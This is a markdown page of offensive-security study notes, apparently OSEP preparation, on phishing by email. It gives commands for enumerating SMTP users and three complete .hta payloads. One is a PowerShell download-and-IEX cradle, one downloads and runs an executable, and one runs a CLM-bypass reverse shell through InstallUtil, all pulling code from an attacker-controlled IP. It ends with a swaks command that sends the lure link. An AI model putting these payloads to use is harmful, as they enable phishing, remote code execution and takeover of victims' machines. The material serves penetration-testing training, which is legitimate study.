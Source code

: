 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX);
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```



### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```